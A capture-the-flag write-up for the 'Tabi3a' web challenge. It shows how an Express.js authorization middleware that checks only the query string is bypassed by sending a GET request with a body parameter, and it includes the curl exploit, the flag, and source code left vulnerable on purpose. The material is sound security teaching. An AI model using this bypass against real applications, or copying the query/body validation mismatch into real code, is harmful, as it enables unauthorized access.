


# Tabi3a 🌿 — Writeup

**Category:** Web
**Flag:** `Pioneers25{fl0w3rs_bl00m_wh3n_m1ddl3w4r3s_f41l}`

---

## Challenge Overview

**Tabi3a** (Arabic for "Nature") is a simple flower information API built with Express.js. The application stores information about various flowers, including one called "The Forbidden Garden" which is protected by an authorization middleware. However, a subtle configuration issue creates an HTTP Parameter Pollution vulnerability.

> *"Welcome to Tabi3a 🌿, your digital garden of flower knowledge!"*
>
> *"Browse our collection of beautiful flowers. Note: The Forbidden Garden (ID 1) is restricted for security reasons."*

**Objective:** Bypass the authorization middleware to access the forbidden flower and retrieve the flag.



---

## Deployment

### Docker (Recommended)

```bash
docker-compose up --build
```

The challenge will be available at `http://localhost:3999`.

### Manual Setup

```bash
npm install
node server.js
```

---

## Reconnaissance & Blackbox Testing

### 1. Initial Exploration

Visiting the homepage shows a list of available flowers:



```
🌸 Available Flowers:
- ID 1: The Forbidden Garden (⚠️ Restricted)
- ID 2: Rose Field
- ID 3: Tulip Valley
- ID 4: Sunflower Plains
- ID 5: Daisy Meadow
- ID 6: Sakura Garden
- ID 7: Hibiscus Shore
- ID 8: Lavender Hills
```

### 2. Testing Normal Access

Requesting a public flower works as expected:

```bash
curl http://localhost:3999/flower?id=2
```

**Response:**
```json
{
  "title": "Rose Field",
  "content": "Roses symbolize secrecy and hidden messages."
}
```

### 3. Testing Forbidden Access

Attempting to access the forbidden flower (ID 1) via query parameter:

```bash
curl http://localhost:3999/flower?id=1
```

**Response:**
```
Access to the Forbidden Garden is restricted 🌱
```

The authorization middleware successfully blocks the request.

### 4. Looking for Bypass Techniques

Let's test various parameter pollution techniques:

**Test 1: Multiple query parameters**
```bash
curl "http://localhost:3999/flower?id=2&id=1"
```
**Result:** Still returns ID 2 (first parameter wins)

**Test 2: Array notation**
```bash
curl "http://localhost:3999/flower?id[]=3&id[]=1"
```
**Result:** 404 Flower not found (array object not matched)

**Test 3: POST request with body**
```bash
curl -X POST "http://localhost:3999/flower?id=3" -d "id=1"
```
**Result:** 404 (route only accepts GET)

**Test 4: GET request with body (unusual but valid HTTP)**
```bash
curl -X GET "http://localhost:3999/flower?id=3" -d "id=1"
```

**Response:**
```json
{
  "title": "The Forbidden Garden",
  "content": "Pioneers25{fl0w3rs_bl00m_wh3n_m1ddl3w4r3s_f41l}"
}
```

✅ **Success!** This works because of HTTP Parameter Pollution.

---

## Exploitation

### The Bypass Strategy

The key insight is that we can send a GET request with a body. By using:
- **Query parameter** `id=3` (to bypass authorization check)
- **Body parameter** `id=1` (to fetch the forbidden flower)

We exploit the inconsistency between where the authorization middleware looks for the ID versus where the handler retrieves it.

### Exploit Command

```bash
curl -X GET "http://localhost:3999/flower?id=3" -d "id=1"
```

**Breakdown:**
- `-X GET` — Specifies GET method
- `"http://localhost:3999/flower?id=3"` — Query parameter `id=3` (bypasses middleware)
- `-d "id=1"` — Body parameter `id=1` (actually retrieved by handler)

### Response

```json
{
  "title": "The Forbidden Garden",
  "content": "Pioneers25{fl0w3rs_bl00m_wh3n_m1ddl3w4r3s_f41l}"
}
```

🎉 **Flag captured!**


## Understanding the Source Code Vulnerabilities

Now let's examine the source code to understand the underlying flaw.

### The Flawed Architecture

The application has two critical misconfigurations:

#### 1. Body Parser Applied to GET Requests

```javascript
// ❗ Vulnerable on purpose: parse body for GET requests
app.use(bodyParser.urlencoded({ extended: true }));
```

By default, Express's `body-parser` middleware processes request bodies **regardless of the HTTP method**. While it's unusual to send a body with GET requests, it's technically allowed by HTTP/1.1, and Express will happily parse it.

#### 2. Authorization Check vs. Data Source Mismatch

The authorization middleware only checks the **query parameter**:

```javascript
// ❌ Broken authorization middleware
app.use("/flower", (req, res, next) => {
  // Authorization checks QUERY only
  if (req.query.id == "1") {
    return res.status(403).send("Access to the Forbidden Garden is restricted 🌱");
  }
  next();
});
```

But the endpoint handler checks **both body and query**, with body taking precedence:

```javascript
// 🌸 Flower endpoint (vulnerable)
app.get("/flower", (req, res) => {
  // Data source confusion (HPP)
  const id = req.body.id || req.query.id;

  if (!flowers[id]) {
    return res.status(404).send("Flower not found");
  }

  res.json(flowers[id]);
});
```

### The Vulnerability: HTTP Parameter Pollution (HPP)

**HTTP Parameter Pollution** occurs when an application accepts the same parameter from multiple sources without consistent validation. In this case:

| Source | Authorization Check | Data Retrieval |
|--------|---------------------|----------------|
| `req.query.id` | ✅ Checked | ✅ Used (fallback) |
| `req.body.id` | ❌ Not checked | ✅ Used (priority) |

### Why This Works

**HTTP Specification Allows Bodies in GET**

While uncommon, **RFC 7231** (HTTP/1.1) does NOT prohibit request bodies in GET requests:

> *"A payload within a GET request message has no defined semantics; sending a payload body on a GET request might cause some existing implementations to reject the request."*

Most servers (including Express.js) will process GET request bodies if middleware is configured to do so.

**Express Middleware Order**

Express processes middleware in order:
1. **Body parser** runs first → Populates `req.body`
2. **Authorization middleware** runs second → Only checks `req.query`
3. **Route handler** runs last → Uses `req.body` preferentially

---

## Key Takeaways

### 1. HTTP Parameter Pollution is Subtle

When applications accept the same parameter from multiple sources (query, body, headers, cookies), inconsistent validation across layers can lead to bypasses.

### 2. Middleware Order Matters

Security checks must operate on the **same data source** as the application logic. Checking `req.query` while using `req.body` creates a blind spot.

### 3. Unusual HTTP Usage Can Be Exploited

Just because GET requests with bodies are uncommon doesn't mean they won't work. Attackers exploit edge cases that developers don't test.

### 4. Defense-in-Depth Requires Consistency

Having multiple layers of security is good, but only if they validate the **same input sources** consistently.

---

## Fun Fact

The challenge name "Tabi3a" (طبيعة) means "nature" in Arabic, and the flower theme reflects the natural beauty of proper input validation... which this challenge deliberately lacks! 🌸
